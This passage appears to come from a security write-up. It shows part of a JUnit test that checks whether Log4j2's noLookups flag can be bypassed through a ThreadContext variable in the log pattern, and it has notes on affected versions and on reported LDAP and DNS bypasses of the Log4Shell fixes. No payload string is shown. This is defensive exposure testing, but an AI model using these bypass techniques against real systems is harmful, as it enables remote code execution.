        AppenderComponentBuilder appenderBuilder = builder.newAppender("Console", "CONSOLE");
        appenderBuilder.addAttribute("target", ConsoleAppender.Target.SYSTEM_OUT);
        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern", "${ctx:InsecureVariable} - %m%n"));
        RootLoggerComponentBuilder rootLogger = builder.newRootLogger(Level.INFO);
        rootLogger.add(builder.newAppenderRef("Console"));
        builder.add(appenderBuilder);
        builder.add(rootLogger);
        //Configurator.reconfigure(builder.build());
        //Use this method is reconfigure(() do not exists in the log4j2 tested version
        Configurator.initialize(builder.build());
        //Enable the security flag
        System.setProperty("log4j2.formatMsgNoLookups", "true");
        //Setup the logger used
        victim = LogManager.getRootLogger();
        //Display execution context
        System.out.printf("LOG4J2 version: %s\n", victim.getClass().getPackage().getImplementationVersion());
        System.out.printf("Java version  : %s\n", System.getProperty("java.version"));
    }

    @After
    public void testSuiteFinalize() throws Exception {
        //Reset SystemOut and SystemErr to original ones
        System.setOut(currentSystemOut);
        System.setErr(currentSystemErr);
        //Remove the SOCK proxy
        System.getProperties().remove("proxySet");
        System.getProperties().remove("socksProxyHost");
        System.getProperties().remove("socksProxyPort");
        //Remove socket timeout
        System.getProperties().remove("sun.net.client.defaultConnectTimeout");
        System.getProperties().remove("sun.net.client.defaultReadTimeout");
    }

    @Test
    public void testExposure() throws Exception {
        //Ensure that the security flag is enabled
        Assert.assertNotNull("Flag 'log4j2.formatMsgNoLookups' must be set!", System.getProperty("log4j2.formatMsgNoLookups"));
        Assert.assertTrue("Flag 'log4j2.formatMsgNoLookups' must be enabled!", Boolean.parseBoolean(System.getProperty("log4j2.formatMsgNoLookups")));
        //Log the payload
        ThreadContext.put("InsecureVariable", TEST_PAYLOAD);
        victim.info("Triggering...");
        //Let's time to logger to write the content to the appender and any JNDI lookup to be attempted
        TimeUnit.SECONDS.sleep(10);
        //Check if any JNDI lookup tentative was performed
        String out = captureStream.toString(StandardCharsets.UTF_8);
        //Save the output for ease debugging operations
        Files.deleteIfExists(Paths.get("target", "Log4ShellExposureTestMsgNoLookupsBypass.out"));
        Files.writeString(Paths.get("target", "Log4ShellExposureTestMsgNoLookupsBypass.out"), out, StandardCharsets.UTF_8, StandardOpenOption.CREATE);
        //Apply assertion using the JNDI lookup marker
        Assert.assertFalse("JNDI lookup tentative identified, see target/Log4ShellExposureTestMsgNoLookupsBypass.out file for details.", out.contains(TEST_FAILED_MARKER));
    }
}
```

Version **2.14.1** seems to be exposed to the bypass:


Version **2.15.0** do not seems to be exposed to the bypass:


Note that a usage of the `printf()` function, like for example `victim.printf(Level.INFO,"%s",TEST_PAYLOAD);`, have the same effect that using the `ThreadContext` combined with a expression in the log pattern:


On version **2.15.0** - By default:

* JNDI with DNS protocol is not allowed:


* JNDI with LDAP(S) protocol require defining allowed hosts:


Regarding LDAP(S), a bypass of the validation against allowed hosts was identified: https://twitter.com/pwntester/status/1471465662975561734

Regarding the following bypass disclosed on Twitter: 


Source: https://twitter.com/marcioalm/status/1471740771581652995

It seems not effective on Java 17 ([current LTS](https://en.wikipedia.org/wiki/Java_version_history)) and Java 11 (previous LTS), at least, using a "standart" DNS listener:


Some DNS client, like **dig**, perform some cleanup so the bypass become functional:


However, as the JVM (at least 11/17) do not perform any cleanup and take the value AS IS for the host then it raise an error about the invalid host name.


